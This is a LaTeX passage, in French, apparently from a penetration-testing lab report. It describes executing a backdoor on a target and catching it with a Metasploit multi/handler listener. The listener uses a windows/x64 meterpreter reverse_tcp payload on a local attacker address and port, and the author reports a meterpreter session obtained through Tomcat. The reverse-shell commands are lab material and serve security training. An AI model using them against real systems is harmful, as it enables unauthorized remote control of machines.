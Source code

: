 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{enumerate}
\begin{itemize}
                \item \texttt{\footnotesize execute backdoor.exe}
            \end{itemize}
            \item Commandes utilisées sur le deuxième terminal:
            \begin{itemize}
                \item \texttt{\footnotesize use multi/handler}
                \item \texttt{\footnotesize set payload windows/x64/meterpreter/reverse\_tcp}
                \item \texttt{\footnotesize set LHOST 192.168.1.3}
                \item \texttt{\footnotesize set LPORT 4445}
                \item \texttt{\footnotesize run}
            \end{itemize}
        \end{enumerate}
        Ainsi, j'ai \textcolor{blue}{\textbf{réussi}} à ouvrir une session meterpreter complète, c'est-à-dire où on peut voir le PID, migrer le processus, etc. comme vous pouvez le voir sur la figure \ref{fig:backdoorTomcat03}.
    \end{example}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.95\linewidth]{images/backdoor-tomcat-03.PNG}
        \caption{Obtention d'une session meterpreter où on peut voir le PID, escalader ses privilèges, et migrer le processus avec Tomcat}
        \label{fig:backdoorTomcat03}
    \end{figure}
\end{enumerate}
\textbf{Remarque}: je couvre le maintien de session plus en détail dans la section sur la post-exploitation.
\end{document}
